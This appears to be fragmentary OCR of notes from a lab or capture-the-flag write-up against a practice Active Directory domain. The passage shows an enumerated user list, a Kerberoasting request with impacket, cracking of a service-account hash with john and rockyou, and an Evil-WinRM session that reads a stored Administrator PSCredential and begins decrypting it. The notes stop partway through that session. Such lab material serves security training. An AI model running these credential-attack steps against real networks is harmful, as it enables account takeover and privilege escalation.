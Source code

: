     Bradley.Hancock
    Tracy.Roberts
    Brenda.Andrews
    Wayne.Taylor
    Rachel.Parker
    Deborah.Harris
    Duncan.Spencer
    krbtgt
    Adminisrator

kerberoas again

    ➜  lustrous impacket-GetUserSPNs -request -dc-ip LUSDC lustrous.vl/ben.cox

    ➜  lustrous john svc_web_hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    iydgTvmujl6f     (?)

winrm shell

    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> dir


        Directory: C:\Users\ben.cox\Desktop


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        12/26/2021  10:30 AM           1652 admin.xml
    -a----         1/17/2025  11:13 PM           3147 store-cred.ps1


    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> type admin.xml
    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
    <Obj RefId="0">
        <TN RefId="0">
        <T>System.Management.Automation.PSCredential</T>
        <T>System.Object</T>
        </TN>
        <ToString>System.Management.Automation.PSCredential</ToString>
        <Props>
        <S N="UserName">LUSMS\Administrator</S>
        <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000d4ecf9dfb12aed4eab72b909047c4e560000000002000000000003660000c000000010000000d5ad4244981a04676e2b522e24a5e8000000000004800000a00000001000000072cd97a471d9d6379c6d8563145c9c0e48000000f31b15696fdcdfdedc9d50e1f4b83dda7f36bde64dcfb8dfe8e6d4ec059cfc3cc87fa7d7898bf28cb02352514f31ed2fb44ec44b40ef196b143cfb28ac7eff5f85c131798cb77da914000000e43aa04d2437278439a9f7f4b812ad3776345367</SS>
        </Props>
    </Obj>
    </Objs>
    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $user = "Administrator"
    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000d4ecf9dfb12aed4eab72b909047c4e560000000002000000000003660000c000000010000000d5ad4244981a04676e2b522e24a5e8000000000004800000a00000001000000072cd97a471d9d6379c6d8563145c9c0e48000000f31b15696fdcdfdedc9d50e1f4b83dda7f36bde64dcfb8dfe8e6d4ec059cfc3cc87fa7d7898bf28cb02352514f31ed2fb44ec44b40ef196b143cfb28ac7eff5f85c131798cb77da914000000e43aa04d2437278439a9f7f4b812ad3776345367" | ConvertTo-SecureString
    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)
    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $cred.GetNetworkCredential() | fl
